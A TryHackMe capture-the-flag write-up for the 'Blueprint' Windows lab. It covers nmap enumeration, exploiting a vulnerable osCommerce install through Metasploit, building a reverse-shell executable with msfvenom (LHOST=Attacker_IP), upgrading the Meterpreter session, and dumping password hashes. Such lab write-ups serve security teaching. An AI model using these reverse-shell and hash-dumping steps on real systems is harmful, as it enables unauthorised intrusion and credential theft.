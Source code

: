 ```yaml
---
title: "TryHackMe - Blueprint"
author: Nasrallah
description: ""
date: 2022-05-25 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, windows, metasploit, meterpreter, easy, msfvenom]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Blueprint](https://tryhackme.com/room/blueprint) from [TryHackMe](https://tryhackme.com). It's an easy windows machine running a software program with a version vulnerable to remote code execution.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.230.235                                             
Host is up (0.28s latency).                                                                                                                                   
Not shown: 987 closed tcp ports (reset) 
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods:              
|_  Potentially risky methods: TRACE
|_http-title: 404 - File or directory not found.           
|_http-server-header: Microsoft-IIS/7.5                                                                                                                       
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                 
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| tls-alpn:                 
|_  http/1.1                                                                   
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47 
|_Not valid after:  2019-11-08T23:48:47 
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| http-methods:                                                                                                                                               
|_  Potentially risky methods: TRACE
49152/tcp open  msrpc        Microsoft Windows RPC                                                                                                            
49153/tcp open  msrpc        Microsoft Windows RPC                                                                                                            
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-05-29T10:06:54
|_  start_date: 2022-05-29T09:57:47
|_clock-skew: mean: -20m02s, deviation: 34m37s, median: -3s
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:b2:71:5d:06:29 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-05-29T11:06:52+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
```

We have a windows machine, running a webserver on port 80 and port 8080, SMB and mysql.

### Web

Let's navigate to the webpage on port 8080.

![](/assets/img/tryhackme/blueprint/1.png)

It's a directory, let's see what it holds.

![](/assets/img/tryhackme/blueprint/2.png)

We see oscommerce with what we assume to be a version number. Let's search for **oscommerce** and see what we can find.

![](/assets/img/tryhackme/blueprint/3.png)

OsCommerce is an online store management software program, and it is vulnerable to remote code execution in this exact version this machine is running.


## **Foothold**

Let's download the exploit and run it.

![](/assets/img/tryhackme/blueprint/4.png)

Great! We got command execution and with elevated privileges.

If we opened up metasploit, we can see that it also has a module for exploiting this service and even getting a reverse shell.

![](/assets/img/tryhackme/blueprint/5.png)

Let's set the necessary parameters up and run the module.

![](/assets/img/tryhackme/blueprint/6.png)

Now let's dump the hashes.

![](/assets/img/tryhackme/blueprint/7.png)

We can't do that because the current meterpreter we're using (php/meterpreter) is not supported. Let's upgrade to **windows/meterpreter*.


## **Shell Stabilization**

First, we need to create an executable using msfvenom with this command.`msfvenom -p windows/meterpreter/reverse_tcp LHOST=Attacker_IP LPORT=1234 -f exe -o shell.exe`

![](/assets/img/tryhackme/blueprint/8.png)

Great. Now we need to setup a listener on metasploit. We use **exploit/multi/handler** for that, and set the options LPORT, LHOST and payload. After that we run the module in the background with `run -j`.
>Press `ctrl + z` to background meterpreter and then select the handler.

![](/assets/img/tryhackme/blueprint/9.png)

Great! Now let's get back to our meterpreter session, and upload the executable.

> You need to start metasploit from the same directory where we created the executable, or specify the full path of the executable:(/path/to/the/executable.exe)

![](/assets/img/tryhackme/blueprint/10.png)

We uploaded the file successfully, now let's run it with the command `execute -f shell.exe`.

![](/assets/img/tryhackme/blueprint/11.png)

Great! We got our session. Now background the old meterpreter session with `ctrl + z` and select the new one, in my case it's session 10: `sessions -i 10`.

Now we can run `hashdump` and get local users hashes.

![](/assets/img/tryhackme/blueprint/12.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
